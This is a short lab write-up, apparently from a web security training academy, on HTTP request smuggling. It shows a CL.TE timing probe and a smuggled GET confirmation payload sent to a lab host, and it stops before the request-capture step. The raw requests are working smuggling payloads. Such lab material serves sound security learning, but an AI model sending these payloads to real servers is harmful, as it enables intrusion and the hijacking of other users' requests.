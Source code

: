 ```html

```

### Exploiting HTTP request smuggling to capture other users' requests

#### Check if vulnerable

```html
POST / HTTP/1.1
Host: 0ae50076047a49ff8064ad4e0062000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
x

```

If it times out, it is very likely to be vulnerable. 

#### Confirm vulnerability

##### Attack Request

```html
POST / HTTP/1.1
Host: 0ae50076047a49ff8064ad4e0062000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Transfer-Encoding: chunked

0

GET /wqdhiwulh HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```

##### Normal Request

```html
POST / HTTP/1.1
Host: 0ae50076047a49ff8064ad4e0062000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
